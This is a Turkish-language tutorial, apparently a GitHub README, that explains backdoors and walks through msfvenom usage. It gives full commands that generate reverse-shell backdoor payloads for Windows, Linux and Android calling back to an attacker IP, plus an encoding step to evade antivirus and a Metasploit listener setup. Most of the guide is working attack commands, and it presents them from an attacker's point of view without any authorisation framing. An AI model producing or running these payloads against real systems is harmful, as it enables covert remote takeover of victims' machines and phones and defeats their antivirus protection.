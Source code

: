 # 💀 Backdoor Nedir? ve `msfvenom` Kullanımı

## 📌 Backdoor (Arka Kapı) Nedir?

**Backdoor**, bir sistemde izinsiz veya gizli bir şekilde erişim elde etmeyi sağlayan arka kapıdır. Saldırganlar genellikle:

- Sisteme sızdıktan sonra kalıcı erişim sağlamak,
- Güvenlik önlemlerini atlatmak,
- İzlerini gizlemek

amacıyla backdoor yazılımlarını yerleştirirler.

### 🔐 Backdoor Özellikleri

- Gizli çalışır, antivirüslerden saklanmaya çalışır.
- Sistemi kontrol etmek için kullanılabilir.
- Kalıcılık sağlayarak sistem her açıldığında yeniden çalışabilir.
- Çoğunlukla reverse shell, bind shell, trojan veya RAT (Remote Access Trojan) türündedir.

---

## 🛠️ `msfvenom` Nedir?

**msfvenom**, Metasploit Framework içerisinde bulunan bir payload (zararlı kod) oluşturma aracıdır. Zararlı yazılım üretip hedefe göndermek için kullanılır.

### 📦 Özellikleri:

- Farklı platformlar için payload üretme (Windows, Linux, Android vs.)
- Çeşitli formatlarda çıktı oluşturma (exe, apk, elf, dll, bash script vs.)
- Encoding/obfuscation ile tespit edilmesini zorlaştırma
- Payload'a ağ ayarları, port gibi parametreler ekleyebilme

---

## 🔧 `msfvenom` Kullanımı

### ✅ Temel Syntax:

```bash
msfvenom -p <payload> LHOST=<saldırgan_ip> LPORT=<port> -f <format> -o <çıktı_dosyası>
```

### 📌 Örnek 1: Windows için Reverse Shell Payload (.exe)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o backdoor.exe
```

| Parametre | Açıklama |
|-----------|----------|
| `-p` | Payload tipi |
| `LHOST` | Saldırganın IP adresi |
| `LPORT` | Saldırganın dinlediği port |
| `-f` | Çıktı formatı (exe, elf, raw, etc.) |
| `-o` | Çıktı dosya adı |

### 📌 Örnek 2: Linux için Reverse Shell Payload (.elf)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o backdoor.elf
```

### 📌 Örnek 3: Android için Backdoor (.apk)

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -o backdoor.apk
```

---

## 🔄 Encoding (Şifreleme) ile Antivirüslerden Kaçınma

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 5 -o encoded_backdoor.exe
```

| Parametre | Açıklama |
|-----------|----------|
| `-e` | Encoder (örnek: x86/shikata_ga_nai) |
| `-i` | Encode tekrar sayısı |

---

## 📡 Metasploit ile Listener Kurma

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```

---

---

## 🚀 Sonuç

- `msfvenom`, Metasploit'in güçlü bir payload oluşturucusudur.
- Farklı sistemler için özelleştirilmiş backdoor’lar üretilebilir.
- Listener kurarak hedef sistem ile bağlantı sağlanabilir.
